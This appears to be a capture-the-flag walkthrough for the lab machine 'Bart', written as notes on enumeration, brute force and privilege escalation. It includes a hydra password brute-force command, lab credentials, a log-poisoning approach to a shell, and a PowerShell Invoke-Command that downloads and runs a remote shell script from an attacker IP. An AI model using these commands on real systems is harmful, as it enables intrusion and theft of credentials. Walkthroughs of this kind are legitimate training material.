

# bart


## nmap

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to http://forum.bart.htb/
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows


## http

- we are redirected to forum.bart.htb so we will add it to host file
- hidden in page source


**potential users**

```
h.potter
harvey potter
Samantha Brown
S.Brown
Daniel Simmons
D.Simmons
Robert Hilton
R.Hilton
```


#### ffuf

- brute forcing directories to find something interesting


- found two interesting directories forum and monitor


#### credentials

- in monitor subdomain the credentials for harvey account is 

```
harvey		potter
```




- found a new subdomain 

```
internal-01.bart.htb
```


#### internal chat server

- there are no ssrf tokens
- means we can brute force the site with hydra or burp suite

```
hydra -l harvey -P /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt internal-01.bart.htb http-post-form "/simple_chat/login.php:uname=^USER^&passwd=^PASS^&submit=Login:Password"
```


#### credentials

```
harvey		Password1
```


## shell

- in the source code of internal-01.bart.htb


#### log poisoning

- we changed the filename to log and see it giving us user agent
- we can use it change our user agent to a malicious php script to get shell


- we can use this to get a shell


- got a shell as nt authority\iusr	which is network services


- We are running as 32 bit process in 64 bit environment

```powershell
[environment]::Is64BitOperatingSystem
[environment]::Is64BitProcess
```


- we need to migrate to a 64 bit process

[article to launch 64 bit shell](https://stackoverflow.com/questions/19055924/how-to-launch-64-bit-powershell-from-32-bit-cmd-exe)


- running PowerUp.ps1
- got AutoLogon credentials


```
DefaultDomainName    : DESKTOP-7I3S68E
DefaultUserName      : Administrator
DefaultPassword      : 3130438f31186fbaf962f407711faddb
```


**powershell runas**

```
$username = "bart\administrator"
$password = ConvertTo-SecureString "3130438f31186fbaf962f407711faddb" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential -argumentlist $username, $password
Invoke-Command -ScriptBlock { whoami } -Credential $cred -Computer localhost
```


```
Invoke-Command -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://10.10.14.24:8000/shell.ps1') } -Credential $cred -Computer localhost
```


